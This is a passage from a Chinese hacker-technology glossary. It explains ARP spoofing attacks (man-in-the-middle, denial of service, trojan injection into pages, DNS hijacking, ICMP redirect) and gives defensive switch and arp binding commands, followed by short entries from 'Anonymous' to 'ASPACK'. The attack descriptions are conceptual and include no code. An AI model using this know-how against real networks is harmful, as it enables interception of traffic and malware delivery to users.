

若 C 要攻击 A，则 C 会假冒成主机 B 的 IP 地址，而 MAC 地址则是 C 自己的。C 开启 IP 路由功能，让 A 的数据先通过 C，C 可以对数据进行处理，然后再发送到 B。当然，C 也可以假冒成 B 来欺骗 A。

防范中间人攻击最有效的方法就是对数据进行加密，这样可以使得 C 无法获取原始数据。当然，也可以在交换机上划分 **VLAN** 来进行防范。

- 2. **拒绝服务**

以图 A-12 为例，C 对主机 A 发送伪造的 ARP 应答报文，并假冒主机 B 的 IP 地址，再使用一个不存在的地址作为 MAC 地址。这样，当主机 A 收到此报文后就会错误地刷新 ARP 缓存表中主机 B 的 IP 地址与 MAC 地址的映射关系，导致主机 A 与主机 B 的网络通信被中断，这在信息安全上被称为 **DOS**。

### 三、ARP 引发的 ARP 挂马与 DNS 劫持

- 1. **ARP 挂马**

利用 ARP 欺骗，可以让攻击者充当中间人的角色。为了方便大家理解，我们通过图 A-13 来进行说明。

在图 A-13 中，内网有主机 A 和主机 B 两台电脑，主机 B 为攻击者，它们通过路由器可以连接到外网 Internet，其中有台服务器为 GoogleWEB。



现在主机 A 想访问外网的 GoogleWEB，而攻击者主机 B 进行 ARP 欺骗来充当内网中的路由器，使得数据包会先经过主机 B 再发送到主机 A，具体过程如下：

主机 A 在 IE 地址栏中提交 GoogleWEB 的网址后，主机 B 会转发这个提交。外网的 GoogleWEB 收到请求包后会将自己的 WEB 页面返回过去，但是这个页面会被主机 B 先收到，因为主机 B 是中间人。

主机 B 先收到后可以对这个页面进行处理，比如将已做好的挂马地址插入到页面中，然后再将这个页面返回给主机 A。主机 A 收到这个已经被处理过的返回页面并进行访问时，就会自动下载并执行其中的木马。由此可见，ARP 挂马的危害是相当大的。

### 2、DNS 劫持

DNS 劫持与 ARP 挂马有相似之处。ARP 挂马是在能正常访问页面的时候自动下载攻击者的恶意程序并执行，而 DNS 劫持则是用户访问的页面被自动转到另一个页面，这个页面就是攻击者事先制作好的，其中可能含有恶意代码或程序。

我们同样以图 A-13 来进行 DNS 劫持过程的说明：

主机 A 提交数据包到外网 GoogleWEB 服务器，首先被攻击者主机 B 得到。此时主机 B 可以让这个数据包到外网去，返回时再进行 DNS 转向；也可以不让它出去，直接进行 DNS 转向。

我们假设不让这个数据包出去，于是主机 B 就充当 WEB 服务器，将主机 A 的数据包直接丢弃，并将事先制作好的 WEB 页面返回给主机 A。

此时主机 A 收到的页面就和实际的不一样了，这样就达到了 DNS 劫持，而主机 B 在这里就充当了 WEB 和 DNS 服务器的角色。

相信常常翻阅“黑手”文章的读者都知道怎么利用了，忘了的赶快去翻来看看。

### 四、由 ARP 引发的 ICMP 重定向攻击

ICMP 是一种网络层协议，它的作用就是让主机或路由器报告差错情况和提供有关异常情况的报告。

ICMP 报文有 ICMP 差错报文和 ICMP 询问报文两种，而在 ICMP 差错报文中又有 5 种报文，这里要说的就是类型值为 5 的报文，叫“改变路由”报文，又称“重定向”报文。

重定向使得路由器将“改变路由”报文发送给主机，让主机知道下次该走更优的路由。简单地说，重定向就是通知主机有最优的路由存在。重定向报文必须由路由器生成，当主机作为路由器使用时，必须将内核配置成可以发送重定向报文。

ICMP 重定向攻击也可以实现 ARP 欺骗的效果，但实现起来比较复杂。ICMP 重定向攻击原理如图 A-14。

在图 A-14 中，主机 A 和 C 处于同一内网，主机 B 处于外网，它们之间用真实路由器相连。主机 C 为攻击者，它通过修改内核，冒充成与主机 A 相连的路由器。



此时若主机 C 要想监听主机 A 的通信内容，则会构造 IP 数据包和 ICMP 数据包（如图 A-15），并通过修改包内的内容来达到欺骗。这样就会让主机 A 的数据包发送给主机 C，在它对数据包进行操作（比如篡改）之后再转发给真实的路由器。这也是中间人攻击，同样可以达到拒绝服务的效果。

| 字段 | 说明 |
|---|---|
| 版本、首部长度、服务类型、总长度 | IP 首部字段 |
| 标识、标志、片偏移 | 分片相关字段 |
| 生存时间 TTL、协议、首部校验和 | 路由与校验字段 |
| 源 IP 地址、目标 IP 地址 | 地址字段 |
| ICMP 类型、代码、校验和 | ICMP 字段 |

图 A-15

虽然这样的攻击能够实现，但实际上从路由器选择协议来看，主机 C 有可能自动发送 ICMP 重定向报文给目标主机，这种自动生成的 ICMP 重定向报文与主机 C 伪造的 ICMP 重定向报文有所区别。

因为当主机 C 作为路由器时，它会发现下一条地址为真实的路由器，而主机 A 与真实路由器距离最短，则主机 A 会直接通过真实路由器。

这里假定最短距离为 1，而主机 A 通过主机 C 再出去的距离为 2，所以此时主机 C 就会通知主机 A，让它直接通过真实路由器出去与主机 B 连接，这样就导致 ARP 欺骗或重定向攻击失败。因此，用 ICMP 重定向攻击来实现 ARP 欺骗比较困难。

### 五、ARP 欺骗攻击的防范

要彻底解决 ARP 欺骗几乎是不可能的，除非开发出某种新的网络协议。我们只能在一定程度上加以预防，就像 DDOS 攻击一样，要完全解决也是不可能的。

在企业网络管理中通常都是在交换机和路由器上进行操作，我们可以考虑以下一些方法：

- 1. **在主机上静态绑定 MAC**
  - 在命令行模式下输入 `arp -a` 来获取 IP 与 MAC 地址映射关系，然后输入 `arp -s 本机IP 本机MAC地址` 的命令形式进行绑定。
  - 这样做最为简单，但只能单向绑定，所以还要和网关进行绑定，我们也用 `arp` 命令来获取网关 IP 与 MAC 地址。
  - 在命令行模式下输入 `arp -s 网关IP 网关MAC地址` 的命令形式进行绑定，若有多个 IP 需要一起绑定。

- 2. **在交换机上进行绑定**
  - 在交换机上启用 ARP 绑定功能，将用户的 IP 与 MAC 地址进行静态绑定，这样效果很明显，但操作起来比较复杂。
  - 可以考虑在交换机的端口上启用端口安全性，这样也能起到一定的防御效果。为了方便说明，请看图 A-16。



在图 A-16 中，主机 A、B、C 被划到 VLAN1 中，主机 D、E、F 被划到 VLAN2 中，并标明每台主机对应的 IP 和 MAC 地址。下面以配置 VLAN1 为例来进行说明，VLAN2 配置与此相同。

将一主机用 console 口连接到交换机上，然后进行配置，下面是主要的命令（不懂的可以略过，希望对某些网管有用）：

```bash
Switch(config)#mac-address-table static 0050.56C0.0001 vlan 1 interface e1;
```

配置静态 MAC 地址绑定表。注意：这里的 MAC 地址是用 . 号来隔开，作用就是将 VLAN1 相关联，这是主机 A 上的配置，就是实现主机 A 的 IP 和 MAC 相绑定。

```bash
Switch(config)#interface e1;
```

```bash
Switch(config-if)#switchport port-security;
```

```bash
Switch(config-if)#switchport port-security maximum 10;
```

最多只允许 10 台主机与此端口通信。其它主机配置与此相同，当安全端口收到的不是静态 MAC 地址表中的地址时（即为攻击者的地址时），将会导致地址违规，使得攻击者会被拒绝访问，ARP 欺骗自然就失败了。

```bash
地址违规命令为：Switch(config)#switchport port-security violation (protect | restrict | shutdown)
```

其中 protect 为保护模式，此时端口将禁止攻击者访问；restrict 为锁定模式，效果和 protect 一样，不同的是它会生成 SNMP 中断（trap）消息；shutdown 为关闭模式，端口被关闭，只有管理员才能重新激活。

其它配置与此类似，这里注意一下：如果只在方法 2 上做绑定，而不在方法 1 上做绑定，那是不行的，这样无法保证用户端不会被欺骗，所以最好两种方法都进行。

## 3、采用 MAC 地址访问控制列表（ACL: Access Control List）

访问控制列表类似于防火墙中的过滤策略，它可以决定哪些端口之间能够或不能够互相访问。

比如在图 A-16 中，我们让主机 A 只能访问主机 B，则在交换机上执行如下命令：

```bash
Switch(config)#access-list 1100 permit 0050.56C0.0001 0000.0000.0000 0050.56C0.3055 0000.0000.0000
```

其中 1100 为 ACL 编号，取值为 1100-1199；permit 表示允许的意思，如果要禁止则用 deny；接着的一串数字为主机 A 和主机 B 的 MAC 地址，连续的 12 个 0 表示必须符合主机 A 和主机 B 两个地址。

该命令很有用，完整的语法为：access-list ACL 号 {permit|deny} 源 MAC 地址 通配码 目标 MAC 地址 通配码。

## 4、使用 ARP 服务器

在局域网上架设 ARP 服务器，让它来替代主机应答 ARP 包。比如可以设置一种被称为 VMPS（VLAN 成员策略服务器）的服务器，它记录了每个端口的信息，并把每个端口和 VLAN 相关联起来，这样就很难实现 ARP 欺骗了。这种方法虽然可以防御 ARP 欺骗，但成本太高。

## 5、使用 ARP 欺骗防御工具

这种方法是最简单可行的，比如用 AntiARP 防火墙软件就可以实现。“黑手”曾经发布过 JiaJia 写的防 ARP 欺骗工具，大家也不妨一试。

## ANONYMOUS  黑客技术基础

ANONYMOUS 即匿名。

## Anti-Virus  安全技术

Anti-Virus 是反病毒软件的缩写。反病毒软件是一种程序，可以在用户的计算机硬盘或软盘中进行搜索，以查找已知的或潜在的病毒。如果找到病毒，它会提醒用户，也可能清除、删除或隔离受感染的文件或目录。大多数防病毒程序可以识别威胁计算机系统的病毒、蠕虫和木马，并将它们自动清除。如国产的瑞星、金山毒霸，国外的卡巴斯基、诺顿等都是著名的反病毒软件。

## AntiCrack/ACProtect 2.0  应用程序

ACProtect 是由傲锐公司研发并拥有自主知识产权的加密软件精品，如图 A-17 所示，它有许多技术已经达到并超过了国外同类产品，是一个为 Windows 下的 EXE/DLL/OCX/SCR 等 32 位可执行文件进行加密认证的系统。它可以为程序加上一层坚硬的保护壳，非常有效地防止盗版。并可以设置限制注册功能，即使使用者没有程序的源代码，也可以用 ACProtect 在程序上加上运行次数限制、运行天数限制、运行有效日期限制。

它通过公钥加密算法（RSA-1024）创建并校验注册 KEY，只有在 RSA-KEY 正确的情况下，才对那些受保护的代码进行正常解码。其同时使用了内嵌式代码加密，有效地防止了加密软件从内存中被抓取，也就是无法被脱壳。内置反调试引擎，有效地增加了破解的难度。



图 A-17

用的 API 系统可以使 ACProtect 和使用者的软件紧密粘合在一起，独一无二的嵌套加密技术使得破解者要还原程序源代码变得极为艰难。

## AntiSpyware  应用程序

Microsoft AntiSpyware 是微软公司出品的一个反间谍软件产品（如图 A-18），它能帮你检测和清除 Windows 系统里面的间谍软件和广告软件，以及其他具有潜在危险性的软件，使 Windows 用户免受此类软件的威胁。



图 A-18

## Apache  黑客技术基础

Apache 是全世界使用排名第一并开放源码的 HTTP 服务器，它可以运行在几乎所有广泛使用的计算机系统平台上。Apache 源于 NCSA httpd 服务器，经过多次修改，成为世界上最流行的 Web 服务器软件之一。Apache 取自 “a patchy server” 的读音，意思是充满补丁的服务器。其最初由 Illinois 大学的 Urbana-Champaign 国家高级计算程序中心开发，此后被开源代码团体的成员不断地发展和加强。Apache 的特点是简单快速、性能稳定，并可做代理服务器来使用。

## API  程序语言与开发

API（Application Programming Interface，应用程序编程接口）是一套用来控制 Windows 各个部件（从桌面的外观到为一个新进程分配的内存）的外观和行为的一套预先定义的 Windows 函数。大部分基于 Windows 的应用程序都用到 API，因为使用 API 来实现一些功能是非常方便与高效的。

## ArpSniffer  黑客工具

ArpSniffer，是流光作者小榕的作品，属于国人最早的 ARP 嗅探工具，在命令行下使用。后来出现了 GUI 版本。

## ASCII 码  黑客技术基础，程序语言与开发

在计算机中，所有的数据在存储和运算时都要使用二进制数表示，这使得我们输入的各种信息字符都使用数字来表示。于是，美国有关的标准化组织就出台了所谓的 ASCII 编码，统一规定了常用符号用哪一个二进制数来表示。

美国标准信息交换代码是由美国国家标准学会（ANSI）制定的，属于标准的单字节字符编码方案，用于基于文本的数据。起始于 50 年代后期，在 1967 年定案，最初是美国国家标准，供不同计算机在相互通信时用作共同遵守的西文字符编码标准。目前它已被国际标准化组织（International Organization for Standardization，ISO）定为国际标准，称为 ISO 646 标准，适用于所有拉丁文字字母。

ASCII 码使用指定的 7 位或 8 位二进制数组合来表示 128 或 256 种可能的字符。标准 ASCII 码也叫基础 ASCII 码，使用 7 位二进制数来表示所有的大写和小写字母、数字 0 到 9、标点符号，以及在美式英语中使用的特殊控制字符。其中：

- 0—32 及 127（共 34 个）是控制字符或通讯专用字符（其余为可显示字符）。如控制符：LF（换行）、CR（回车）、FF（换页）、DEL（删除）、BS（退格）、BEL（振铃）等；通讯专用字符：SOH（文头）、EOT（文尾）、ACK（确认）等；
- ASCII 值为 8、9、10 和 13 的数字分别对应为退格、制表、换行和回车字符。它们并没有特定的图形显示，但会依不同的应用程序而对文本显示有不同的影响。
- 33—126（共 94 个）是字符，其中 48—57 为 0 到 9 这十个阿拉伯数字；65—90 为 26 个大写英文字母；97—122 为 26 个小写英文字母，其余为一些标点符号、运算符号等。

同时还要注意，在标准 ASCII 中，其最高位（b7）用作奇偶校验位。所谓奇偶校验，是指在代码传送过程中用来检验是否出现错误的一种方法，一般分奇校验和偶校验两种。

- **奇校验规定**：正确的代码一个字节中 1 的个数必须是奇数，若非奇数，则在最高位 b7 添 1；
- **偶校验规定**：正确的代码一个字节中 1 的个数必须是偶数，若非偶数，则在最高位 b7 添 1。

后 128 个称为扩展 ASCII 码，目前许多基于 x86 的系统都支持使用扩展（或“高”）ASCII。扩展 ASCII 码允许将每个字符的第 8 位用于确定附加的 128 个特殊符号字符、外来语字母和图形符号。标准 ASCII 表如图 A-19 所示。



## ASM  程序设计

ASM 即汇编，它是一种与硬件紧密相关的程序设计低级语言。汇编语言是机器语言便于记忆和理解的符号形式。

计算机发展初期，它只能通过机器语言，也就是 0 与 1 组成的二进制代码进行数据处理与运算，程序的编写也是如此，这使得代码难以记忆，也难以维护与更改，只有那些专门研究这方面的人员才能与计算机进行信息交流。在这种情况下，汇编语言就诞生了，它的目的就是将机器码转换成有一定规律，并且容易记忆和理解的语言。

汇编语言仍然是一种和计算机机器语言十分接近的语言，它的书写格式在很大程度上取决于特定计算机的机器指令。由于它是一种低级语言，对于人们抽象思维和交流十分不便，于是在这个基础上，高级语言就发展起来了。目前已有许多流行较广的高级语言，如 Fortran、Cobol、Pascal、C 和 C++ 等，这类语言与人们的自然语言比较接近，大大提高了程序设计的效率，便于人们进行交流。

汇编语言的语句与机器语言（机器语言操作码）存在对应关系，但这并不意味着汇编语言语句与机器操作对应。在 CISC（复杂指令集）结构 CPU 上，汇编语言（或一个机器语言操作码）可能被编译器解释成多个“微指令”。

在今天的实际应用中，它通常被应用在底层硬件操作和高要求的程序优化。驱动程序、嵌入式操作系统和实时运行程序都需要汇编语言。反编译程序时也只能将程序先编译成汇编语言。

同时，汇编语言所编写的程序运算速度是其他语言所不能比拟的，所以，它依然在计算机领域占有非常重要的地位。

## ASP  脚本

ASP 是一种服务端脚本语言，它是微软推出的一种用来取代 CGI 的技术。简单地说，ASP 是位于服务器端的脚本运行环境，通过这种环境，我们可以创建和运行动态的、交互式的 Web 应用程序。

在我们浏览网页的时候，如果发现 URL 地址中含有 asp 结尾的文件，比如 http://www.xxx.com/article.asp?id=12，那么这个网站就是一个 ASP 构建的网站。

## ASP.NET  黑客技术基础，程序语言与开发

ASP.NET 是一个统一的 Web 开发模型，它包括您使用尽可能少的代码生成企业级 Web 应用程序所必需的各种服务。ASP.NET 作为 .NET Framework 的一部分进行提供，任何 ASP.NET 应用程序都可以使用整个 .NET Framework。

当您编写 ASP.NET 应用程序的代码时，可以访问 .NET Framework 中的类。您可以使用与公共语言运行库（CLR）兼容的任何语言来编写应用程序的代码，这些语言包括 Microsoft Visual Basic、C#、JScript .NET 和 J#。我们常见的以 ASPX 为后缀名的网页都是由 ASP.NET 技术编写的，它比 ASP 即时解释程序速度上要快很多。

## ASPACK  加密解密

ASPACK 是高效的 Win32 可执行程序压缩工具，能对你开发的 32 位 Windows 可执行程序进行压缩，使最终文件减小达 70%！目前针对 ASPACK 所开发的脱壳软件也有许多，包括 ASPACK STRIPPER、ASPACKDIE、ASPROTECT 等。

## ASP 脚本  黑客技术基础，脚本

